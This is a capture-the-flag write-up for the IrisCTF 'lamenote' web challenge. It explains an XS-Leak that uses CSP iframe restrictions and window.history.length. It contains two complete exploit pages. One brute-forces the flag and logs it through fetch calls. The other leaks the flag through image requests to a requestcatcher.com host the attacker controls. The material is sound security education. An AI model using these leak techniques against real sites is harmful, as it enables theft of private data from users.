 ## Chall -- Author: Seraphin
#### `XS Leak` via `CSP violation` and `window.history.length`

In this challenge, the author developed a webpage in which there is an iframe for creating notes (typical XS leak or XSS chall). In the other place, there is a bot which creates a notes inserting the flag and after that visits our url. 

#### Intended solutions

The page for creating notes has two main features, creating and querying notes. Notes consist in a title, a content and a IMG url (this is important). For querying a note, we can do it using a url param, that searches the query in both title and content. In the search function, there is a specific behavior when there are more than one note that matches the query. If there is just one note it would load the full note (`return render_note(results[0])`), in the case that more than one note satisfy the query, it won't load the img url (`return "<!DOCTYPE html><body>" + "".join("<a href='/note/" + note["id"] + "'>" + note["title"] + "</a> " for note in results) + "</body>"`). This tricky behavior would be important for one of the unintended solution. For the bot, it basically loads the page, creates a note with the flag in the content and a imgurl.com url for the img. After that, it visits your page.

The solution for this challenge consist in the abuse of CSP for the image and the `history.length` information. In simple words, if our main page has a CSP of `img-src none` and we try to load inside an iframe one note that have an external img, the iframe won't load. In the case that we are trying to load an inexistent note, it will load. This difference can be seen using the web API `history.length`. In the case that we hit one character of the flag, the iframe won't load and the `history.length` doesn't change. 
Author solution (with my comments):

```html
    <!DOCTYPE html>
    <html>
    <head>
    </head>
    <body>
    <script>
        (async function(){
        async function go(body) {
          let url = "https://lamenote-web.chal.irisc.tf/search?query=irisctf{" + body
    
          // Create the iframe
          f = document.createElement('iframe')
          // We add the restriction that blocks to load the frame if there is a img in it 
          // So, if we are searching a valid post with an external img (flag), it won't load
          f.setAttribute('csp', 'img-src \'none\';')
          f.src = url;

          // Reload the url onload
          let rCount = 0;
          f.onload = () => {
              rCount += 1;
              // change location after onload once
              setTimeout(() => {
                  f.onload = null
                  f.src = url;
              }, 100)
          }
          document.body.appendChild(f)
          await new Promise(r => setTimeout(r, 1000));
          f.remove();
          return window.history.length;
        }

        // Known means the text inside flag. irisctf{KNOWN}
        let known = "";
        // If we know some part of the flag just not to start from the beginning
        const urlParams = new URLSearchParams(window.location.search);
        if(urlParams.get("known") !== null) known = urlParams.get("known");

        // Start
        let l = await go("!"); // start
        console.log("start", l);
        // Character by character
        for(let c of '_abcdefgihkjlmnopqrstuvwxyz}') {
          let l2 = await go(known + c);
          console.log(l2, l, known, c);
          fetch("/?log=" + l2 + "|" + l + "|" + known + "|" + c);
          // Correct
          if(l2 == l) {
            known += c;
            l = l2;
            fetch("/?log=" + known);
            break;
          };
          l = l2;
        }

        // Report all the flag
        if(!known.endsWith("}")) {
          // We open the page using as starting point what we know from the flag
          // It refresh the history.length because there is a maximum of 50 
          // It works because the bot is headless
          window.open("/?known=" + known);
          window.close();
          while(1) {
            await new Promise(r => setTimeout(r, 1000));
            console.log("idle");
          }
        }
        })();
    </script>
    </body>
    </html>
```

#### Unintended solutions


- [hamayanhamayan](https://blog.hamayanhamayan.com/entry/2024/01/08/132233). In this amazing but slow solution, the idea is to create all the possible notes. After that it will load them, if there is one that doesn't get reported via IMG url, it means that the page has loaded (without the img) more than one note (Two notes: our random character guess note + the flag note).

```html
<body>
<script>
    const sleep = ms => new Promise(r => setTimeout(r, ms));
    const prefix = "irisctf{please_";
    const chars = "abcdefghijklmnopqrstuvwxyz_";
    setTimeout(async () => {
        for (var i in chars) {
            form.title.value = prefix + chars[i];
            form.text.value = prefix + chars[i];
            form.image.value = "https://[yours].requestcatcher.com/" + prefix + chars[i];
            form.submit();
            await sleep(500);
        }
        for (var i in chars) {
            form2.query.value = prefix + chars[i];
            form2.submit();
            await sleep(500);
        }
    }, 0);
</script>
<img src="https://[yours].requestcatcher.com/start">
<iframe name="dummyFrame" id="dummyFrame"></iframe>
<form method="POST" target="dummyFrame" id="form" action="https://lamenote-web.chal.irisc.tf/create">
    <input name="title">
    <input name="text">
    <input name="image">
</form>
<form method="GET" target="dummyFrame" id="form2" action="https://lamenote-web.chal.irisc.tf/search">
    <input name="query">
</form>
</body>
```
